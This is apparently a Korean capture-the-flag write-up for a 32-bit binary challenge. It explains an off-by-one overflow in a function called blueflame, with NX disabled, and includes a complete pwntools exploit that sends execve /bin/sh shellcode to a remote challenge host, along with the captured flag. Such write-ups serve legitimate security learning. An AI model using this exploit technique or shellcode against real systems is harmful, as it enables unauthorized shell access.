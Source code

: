 # 키워드
- Off by one

---
# 풀이과정

- 바이너리를 IDA로 분석해보면 `blueflame` 함수에서 1byte overflow가 발생하는 것을 알 수 있음
![[Pasted image 20240120150646.png]]

- NX bit가 없음
![[Pasted image 20240120151141.png|200]]


- 리턴주소를 완벽히 변조할 수는 없어도 마지막 한바이트는 변조할 수 있음을 이용해 주어진 stack 시작 주소로 sfp를 변경하고, stack+8 주소로 점프하게 해서 shellcode를 실행시키면 되는 문제


---
# Poc 코드

```python
from pwn import *

#p=process("./blue-flame")
#p=gdb.debug("./blue-flame")
p=remote("kknock.org", 10007)
context.log_level="debug"

shellcode=b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

p.recvline()
p.recvuntil(b'0x')
buf=int(p.recv(8),16)

nonce=(buf-4)&0xff
nonce=nonce.to_bytes(1,byteorder='little')

payload=p32(buf+4)
payload+=shellcode.rjust(0x34,b'a')
payload+=nonce

p.send(payload)

p.interactive()

# KCTF{Th15_15_r34l_f14g_h4h4}
```


